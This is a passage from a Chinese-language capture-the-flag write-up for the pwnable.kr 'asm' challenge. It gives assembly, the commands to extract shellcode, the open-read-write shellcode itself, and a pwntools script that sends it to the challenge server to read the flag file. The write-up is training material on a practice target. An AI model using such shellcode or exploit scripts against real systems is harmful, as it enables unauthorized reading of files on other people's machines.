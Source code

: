 ```
xor rdi, rdi
inc rdi
xor rax, rax
mov al, 01h
syscall
ret
```

注：64位Linux系统调用表如下
>http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

注：32位Linux系统调用表如下
>http://syscalls.kernelgrok.com/

有了代码，然后就是编译运行

`nasm -f elf64 test.asm -g -F stabs -o test.o`

`for i in $(objdump -d test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`

得到shellcode如下：
>\x48\x31\xf6\x48\x31\xff\x48\x31\xd2\x52\x48\xb8\x6f\x30\x6f\x30\x6f\x6e\x67\x00\x50\x48\xb8\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x50\x48\xb8\x30\x30\x30\x30\x30\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x50\x50\x50\x50\x50\x50\x50\x50\x48\xb8\x73\x5f\x76\x65\x72\x79\x5f\x6c\x50\x48\xb8\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x50\x48\xb8\x5f\x74\x68\x65\x5f\x66\x69\x6c\x50\x48\xb8\x6c\x65\x2e\x73\x6f\x72\x72\x79\x50\x48\xb8\x5f\x74\x68\x69\x73\x5f\x66\x69\x50\x48\xb8\x61\x73\x65\x5f\x72\x65\x61\x64\x50\x48\xb8\x66\x69\x6c\x65\x5f\x70\x6c\x65\x50\x48\xb8\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x50\x48\xb8\x70\x77\x6e\x61\x62\x6c\x65\x2e\x50\x48\xb8\x74\x68\x69\x73\x5f\x69\x73\x5f\x50\x48\x89\xe7\x48\x31\xc0\xb0\x02\x0f\x05\x90\x48\x83\xec\x64\x48\x89\xc7\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x64\x48\x31\xc0\x0f\x05\x90\x48\x31\xff\x48\xff\xc7\x48\x31\xc0\xb0\x01\x0f\x05\xc3

## 获取flag

有了shellcode后，获取flag就好说了

用python的pwntools把shellcode写入服务器即可，代码如下

```
from pwn import *
con = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
p = con.connect_remote('localhost', 9026)
context(arch='amd64', os='linux')
#p = process('./asm')
sh = '\x48\x31\xf6\x48\x31\xff\x48\x31\xd2\x52\x48\xb8\x6f\x30\x6f\x30\x6f\x6e\x67\x00\x50\x48\xb8\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x50\x48\xb8\x30\x30\x30\x30\x30\x6f\x6f\x6f\x50\x48\xb8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x50\x48\xb8\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x50\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x50\x50\x50\x50\x50\x50\x50\x50\x50\x48\xb8\x73\x5f\x76\x65\x72\x79\x5f\x6c\x50\x48\xb8\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x50\x48\xb8\x5f\x74\x68\x65\x5f\x66\x69\x6c\x50\x48\xb8\x6c\x65\x2e\x73\x6f\x72\x72\x79\x50\x48\xb8\x5f\x74\x68\x69\x73\x5f\x66\x69\x50\x48\xb8\x61\x73\x65\x5f\x72\x65\x61\x64\x50\x48\xb8\x66\x69\x6c\x65\x5f\x70\x6c\x65\x50\x48\xb8\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x50\x48\xb8\x70\x77\x6e\x61\x62\x6c\x65\x2e\x50\x48\xb8\x74\x68\x69\x73\x5f\x69\x73\x5f\x50\x48\x89\xe7\x48\x31\xc0\xb0\x02\x0f\x05\x90\x48\x83\xec\x64\x48\x89\xc7\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x64\x48\x31\xc0\x0f\x05\x90\x48\x31\xff\x48\xff\xc7\x48\x31\xc0\xb0\x01\x0f\x05\xc3'

p.recvuntil('shellcode: ')
p.send(sh)
print p.recv(60)
```
